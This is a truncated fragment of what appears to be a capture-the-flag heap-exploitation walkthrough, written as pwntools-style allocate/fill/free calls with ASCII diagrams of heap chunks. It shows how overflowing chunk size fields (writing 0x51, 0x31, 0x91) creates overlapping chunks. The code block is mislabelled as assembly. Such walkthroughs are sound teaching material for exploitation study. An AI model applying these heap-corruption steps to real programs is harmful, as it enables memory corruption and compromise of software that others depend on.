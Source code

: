 ```assembly

allocate(0x10)
allocate(0x10)
allocate(0x30)
allocate(0x40)
allocate(0x60)
    '''
    00 [    ][0x21]   0
    10 [    ][    ]
    20 [    ][0x21]   1
    30 [    ][    ]
    40 [    ][0x41]   2
    50 [    ][    ]
    60 [    ][    ]
    70 [    ][    ]
    80 [    ][0x51]   3
    90 [    ][    ]
    A0 [    ][    ]
    B0 [    ][    ]
    C0 [    ][    ]
    D0 [    ][0x71]   4
    E0 [    ][    ]
    F0 [    ][    ]
    100[    ][    ]
    110[    ][    ]
    120[    ][    ]
    130[    ][    ]
    Top chunk
    '''

fill(0, p64(0x51)*4)
fill(2, p64(0x31)*6)
free(1)
    '''
    00 [    ][0x21]   0
    10 [0x51][0x51]
    20 [0x51][0x51]   1  *
    30 [    ][    ]      *
    40 [    ][0x41]   2  *
    50 [0x31][0x31]      *
    60 [0x31][0x31]      *
    70 [0x31][0x31]
    80 [    ][0x51]   3
    90 [    ][    ]
    A0 [    ][    ]
    B0 [    ][    ]
    C0 [    ][    ]
    D0 [    ][0x71]   4
    E0 [    ][    ]
    F0 [    ][    ]
    100[    ][    ]
    110[    ][    ]
    120[    ][    ]
    130[    ][    ]
    Top chunk
    '''

allocate(0x40)
fill(1, p64(0x91)*4)
    '''
    00 [    ][0x21]   0
    10 [0x51][0x51]
    20 [    ][0x51]   1
```